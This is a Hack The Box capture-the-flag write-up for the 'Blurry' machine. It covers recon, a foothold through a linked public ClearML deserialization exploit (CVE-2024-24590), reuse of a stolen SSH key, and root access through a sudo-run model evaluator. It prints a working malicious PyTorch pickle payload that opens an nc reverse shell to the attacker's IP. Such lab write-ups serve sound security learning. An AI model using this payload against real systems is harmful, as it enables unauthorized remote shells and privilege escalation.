








# Blurry Write-Up - HTB

Target\_IP: 10.10.11.19

***

Starting with a basic NMAP scan, we found port **22** and **80** up. Tailored my scan to get more info:

```bash
nmap -sVC -Pn -n --disable-arp-ping -p22,80 -oA _sVC 10.10.11.19

Nmap scan report for 10.10.11.19
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 14 04:07:49 2024 -- 1 IP address (1 host up) scanned in 10.72 seconds

```

Added **app.blurry.htb** to **/etc/hosts**.&#x20;

Navigated to **http://app.blurry.htb** and got in ClearML.

## Followed the instructions:

**`pip install clearml`**

&#x20;Then navigated to **.bin** and ran **`./clearml-init`** so that we can configure it with the given API parameters.

When prompted for the credentials, simply paste the API Parameters from the web app.&#x20;

<figure><figcaption></figcaption></figure>

Now simply try and find the version of the WebApp to query search engines for already disclosed vulnerabilities. **Version 1.13**&#x20;

<figure><figcaption></figcaption></figure>

## FOOTHOLD:

I found this to be the easiest one to use: [CVE-2024-24590-ClearML-RCE-Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit)

Set up a listener and run it:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Basic enumeration got us a `.ssh` folder with a rsa key!

&#x20;We will transfer it to our local host and use it to `ssh` to `jippity` with it.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## PRIVILEGE ESCALATION:

After using ssh to log in, let's continue further with our enumeration so that we can obtain root: `sudo -l`

<figure><figcaption></figcaption></figure>

&#x20;We can run anything in that folder by **sudo** with **NOPASSWD** and we can also write new files to that folder.

```bash
$ ls -la /models
total 1068
drwxrwxr-x  2 root jippity    4096 Sep 14 07:06 .
drwxr-xr-x 19 root root       4096 Jun  3 09:28 ..
-rw-r--r--  1 root root    1077880 May 30 04:39 demo_model.pth
-rw-r--r--  1 root root       2547 May 30 04:38 evaluate_model.py
```

After I analyzed the **evaluate\_model.py** script and checked some of the **PyTorch docu** and common vulnerabilities, I stumbled on **Pickle** (again) with **`__reduce__`**

Basically Pickle is used for serialization and deserialization (converting to bytes back and forth) for memory performance capabilities. If we check Pickle's Docu we will see that `__reduce__` will let us provide more args, therefore we can launch arbitrary commands:


```
The `__reduce__()` method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “reduce value”). […] When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:

- A callable object that will be called to create the initial version of the object.
- A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument. […]
```


This is the payload I used for **PrivEsc**:

```python
import pickle
import os
import torch

class PVE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 10.10.16.2 6666 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    evil = PVE()
    torch.save(evil, 'evil.pth')

```

Run it via **`python3 pickled.py`**. Move the **`evil.pth`** to **`/models`**.

Set up a listener in a new tab of the terminal and: run **`sudo /usr/bin/evaluate_model /models/evil.pth`** on the target host.&#x20;

<figure><figcaption></figcaption></figure>

&#x20;Voila! :) We are r00t.&#x20;

<figure><figcaption></figcaption></figure>
